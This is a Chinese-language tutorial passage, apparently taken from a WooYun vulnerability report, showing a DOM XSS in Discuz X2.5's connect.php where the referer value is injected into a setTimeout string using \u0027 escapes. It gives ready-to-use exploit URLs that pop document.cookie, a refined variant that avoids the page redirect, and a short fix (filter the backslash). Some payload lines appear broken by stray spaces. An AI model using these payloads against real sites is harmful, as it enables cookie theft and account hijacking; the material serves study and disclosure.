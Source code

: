 # 13\. Dom Xss 实例 [Discuz X2.5]

# 13\. Dom Xss 实例 [Discuz X2.5]

> 来源：[13\. Dom Xss 实例 [Discuz X2.5]](http://www.wooyun.org/bugs/wooyun-2010-016437)

## 简要描述

我们教程的 DOM XSS 就到这里了。最后再给大家送上一个实例。希望大家能够体会到：XSS 的上下文非常重要，如何结合上下文， 利用未过滤字符，合理的构造，才是成功的关键。

## 详细说明

1\. 我们直接看实例点。

```
http://www.discuz.net/connect.php?receive=yes&mod=login&op=callback&referer=aaaaaaaaaaa&oauth_token=17993859178940955951&openid=A9446B35E3A17FD1ECBB3D8D42FC126B&oauth_signature=a6DLYVhIXQJeXiXkf7nVdbgntm4%3D&oauth_vericode=3738504772&timestamp=1354305802 
```

2\. 可以看到我们的 aaaaaaaaaa 在源代码里有 2 处输出。

![image](img/Image_064.jpg)

3\. 看第 2 处，我们需要用双引号闭合，但是显然 dz 不会给我们这么明显的机会，被拦截了。

![image](img/Image_065.jpg)

4\. 我们把目光放在第一处，这一处很特殊，位于 setTimeout 函数的第一个参数里，setTimeout 的第一个函数会将字符串作为脚本来 执行。

我们把这一部分代码提取出来。

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./aaaaaaaaaaa';</script> 
```

我们首先能想到的是闭合掉 单引号， 但是这里单引号已经被过滤了。

![image](img/Image_066.jpg)

5\. 那么是不是就没有办法了呢？我们可以看到 setTimeout 的第一个参数是字符串；我们前面的教程里说过一次，JS 字符串中，字符还可以表示为 unicode 的形式。即：单引号还可以表示为`\u0027` 或`\x27`。带着这个想法，我们可以试试\有没有被过滤。 幸运的是，这里还真没过滤 `\`

![image](img/Image_067.jpg)

6\. 接着我们就是构造代码了。 首先写好代码。

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a';alert(document.cookie);a='';</script> 
```

将里面的引号变为`\u0027`

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a\u0027;alert(document.cookie);a=\u0027';</script> 
```

代入到 URL 里。

```
http://www.discuz.net/connect.php?receive=yes&mod=login&op=callback&referer=a\u0027;alert(document.cookie);a=\u%3Ba%3D\u0)0 027&oauth_token=17993859178940955951&openid=A9446B35E3A17FD1ECBB3D8D42FC126B&oauth_signature=a6DLYVhIXQJeXiXkf7nVdbgn tm4%3D&oauth_vericode=3738504772&timestamp=1354305802 
```

可以看到弹出了 cookies。

![image](img/Image_068.jpg)

7\. 其实这里存在一个问题。 这段 JS 代码里，第一句是 `location.href="某个地址";` 上面我们所演示的，是一个 alert，暂停了 `location.href` 的发生。

如果我们把 `alert(document.cookie);` 换成插入某个 JS 文件的脚本代码，就会出现问题。

即：JS 文件还没来得及加载，`location.href="某个地址";` 这句就会被执行，从而跳转到另外一个页面了，继而导致失效。

8\. 所以这里，我们有必要改进下执行 JS 的办法。如下，

我们可以直接让代码变成执行 `location.href="javascript:alert(document.cookie)";` `location.href='原来的字符串'.替换(所有字符,"新的字符");`

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a'.replace(/.+/,/javascript:alert(document.cookie)/.source);//';", 2000);</script> 
```

同上，替换单引号,加号什么的。

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a\u0027.replace(/.\u002b/,/javascript:alert(document.cookie)/.source);//';", 2000);</script> 
```

最后利用代码。

```
http://www.discuz.net/connect.php?receive=yes&mod=login&op=callback&referer=a\u0027.replace(/.\u002b/,/javascrip t:alert(document.cookie)/.source);//&oauth_token=17993859178940955951&openid=A9446B35E3A17FD1ECBB3D8D42FC126B&oauth_s ignature=a6DLYVhIXQJeXiXkf7nVdbgntm4%3D&oauth_vericode=3738504772&timestamp=1354305802 
```

可以看到，效果一样，这次就不会发生跳转从而导致加载 JS 失败咯。

![image](img/Image_069.jpg)

## 修复方案

过滤掉 `\`